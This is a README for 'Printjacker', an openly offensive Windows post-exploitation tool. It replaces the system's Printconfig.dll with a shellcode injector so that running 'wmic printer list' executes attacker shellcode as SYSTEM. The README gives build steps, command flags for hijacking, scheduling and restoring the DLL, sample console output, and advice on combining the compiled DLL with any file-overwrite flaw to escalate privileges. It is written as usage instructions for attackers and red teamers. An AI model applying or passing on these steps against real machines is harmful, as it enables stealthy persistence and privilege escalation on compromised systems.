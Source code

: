 # printjacker

Printjacker is a post-exploitation tool that creates a persistence mechanism by overwriting *Printconfig.dll* with a shellcode injector. The persistence mechanism can be invoked via executing `wmic printer list` command with any user. The shellcode will be executed with **SYSTEM** privileges. Details: [POST.md](POST.md)

![flow](images/flow.png)

## Usage
- Change the shellcode in **dllmain.cpp**
- Compile Printjacker with VS2019 (tested). New *printconfig.dll* will be compiled and added to resources of *Printjacker.exe*.
- Execute with Admin privileges.

```
.\printjacker.exe [-find] | [-hijack] | [-execute] | [-schedule] | [-restore]
    -find     : Find the directory of Printconfig.dll
    -hijack   : Overwrite Printconfig.dll with shellcode injector and copy original to Printconfig_orig.dll
    -execute  : Hijack Printconfig.dll and execute "wmic printer list" as the current user
    -schedule : Hijack printconfig.dll and schedule "wmic printer list"
    -restore  : Restore Printconfig.dll to original
```

- Hijack *Printconfig.dll* and execute the payload
```
.\printjacker.exe -execute
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
...
...
[+] Resource is found. Trying to modify the target file...
[+] Original Dll is copied to Princonfig_orig.dll
[+] Printconfig.dll is successfully modified!
[*] Working in Execute mode
[*] Trying to execute payload by using "wmic printer list"...
...
```

- Restore the original *printconfig.dll* 
```
.\printjacker.exe -restore
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
[+] Printconfig.dll is restored from Printconfig_orig.dll
```

- If you have only file overwrite privilege without command execution, you can still use compiled *printconfig.dll* to gain SYSTEM privileges. 
```
.\printjacker.exe -find
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
```
- Overwrite the original printconfig.dll with your favourite file overwrite vulnerability, then execute `wmic printer list` with any user.

## References
Thanks to great works by @SandboxBear, @tiraniddo, @aionescu, @yarden_shafir, @decoder_it, @spotheplanet ...

- https://decoder.cloud/2019/11/13/from-arbitrary-file-overwrite-to-system/ 
- https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html
- https://github.com/ionescu007/faxhell/blob/master/ualapi/dllmain.c
- https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection

## TODO
- Generate pipename from UUID
- Compatibility for x86
